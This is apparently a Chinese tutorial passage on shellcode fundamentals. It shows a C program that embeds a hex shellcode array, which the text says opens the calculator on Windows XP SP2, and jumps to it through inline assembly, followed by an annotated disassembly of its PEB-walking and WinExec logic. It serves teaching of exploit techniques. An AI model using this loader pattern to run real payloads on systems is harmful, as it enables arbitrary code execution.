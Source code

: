 msfvenom --help-formats     查看有哪些格式输出

![image.png](https://fynotefile.oss-cn-zhangjiakou.aliyuncs.com/fynote/fyfile/2446/1652062405056/a7f0f6c2369c44efb9005834400d3779.png)

## shellcode 高级基础原理（二）

**shellcode调试基础：如何把shellcode放置到内存，让程序跳转到该段内存执行？**

1. **指向函数的指针**

* evil数组中存储的是一段shellcode，该shellcode 功能属于验证类，其在windows_xp sp2系统环境下执行后，可以弹出计算器

```
#include<stdio.h>
char evil[] = "\xeb\x54\x31\xf6\x64\x8b\x76\x30\x8b\x76\x0c\x8b\x76\x1c\x8b\x6e"
"\x08\x8b\x36\x8b\x5d\x3c\x8b\x5c\x1d\x78\x85\xdb\x74\xf0\x01\xeb"
"\x8b\x4b\x18\x67\xe3\xe8\x8b\x7b\x20\x01\xef\x8b\x7c\x8f\xfc\x01"
"\xef\x31\xc0\x99\x02\x17\xc1\xca\x04\xae\x75\xf8\x3b\x54\x24\x04"
"\xe0\xe4\x75\xca\x8b\x53\x24\x01\xea\x0f\xb7\x14\x4a\x8b\x7b\x1c"
"\x01\xef\x03\x2c\x97\xc3\x68\xe7\xc4\xcc\x69\xe8\xa2\xff\xff\xff"
"\x50\x68\x63\x61\x6c\x63\x8b\xd4\x40\x50\x52\xff\xd5\x68\x77\xa6"
"\x60\x2a\xe8\x8b\xff\xff\xff\x50\xff\xd5"; 
int main(int argc, char **argv) 
{
	_asm{
		lea eax, evil;						//（1）
		call eax;							//（2）
	}
	return 0;
}
```

* （1）处使用汇编指令lea把指针evil赋值给eax
* （2）处使用汇编指令call直接调用寄存器eax所指向的evil函数

```
shellcode payload核心函数：
00406086    68 E7C4CC69     push 0x69CCC4E7
0040608B    E8 A2FFFFFF     call shellcod.00406032
00406090    50              push eax
00406091    68 63616C63     push 0x636C6163
00406096    8BD4            mov edx,esp
00406098    40              inc eax
00406099    50              push eax
0040609A    52              push edx                                 ; ntdll.KiFastSystemCallRet
0040609B    FFD5            call ebp                                 ; kernel32.WinExec
0040609D    68 77A6602A     push 0x2A60A677
004060A2    E8 8BFFFFFF     call shellcod.00406032
004060A7    50              push eax
004060A8    FFD5            call ebp                                 ; kernel32.WinExec

定位PEB位置
00406032    31F6            xor esi,esi
00406034    64:8B76 30      mov esi,dword ptr fs:[esi+0x30]
00406038    8B76 0C         mov esi,dword ptr ds:[esi+0xC]
0040603B    8B76 1C         mov esi,dword ptr ds:[esi+0x1C]
0040603E    8B6E 08         mov ebp,dword ptr ds:[esi+0x8]
00406041    8B36            mov esi,dword ptr ds:[esi]
00406043    8B5D 3C         mov ebx,dword ptr ss:[ebp+0x3C]
00406046    8B5C1D 78       mov ebx,dword ptr ss:[ebp+ebx+0x78]
0040604A    85DB            test ebx,ebx                             ; kernel32.7C80262C
0040604C  ^ 74 F0           je short shellcod.0040603E
0040604E    01EB            add ebx,ebp                              ; kernel32.WinExec
00406050    8B4B 18         mov ecx,dword ptr ds:[ebx+0x18]
00406053    67:E3 E8        jcxz short shellcod.0040603E
00406056    8B7B 20         mov edi,dword ptr ds:[ebx+0x20]
```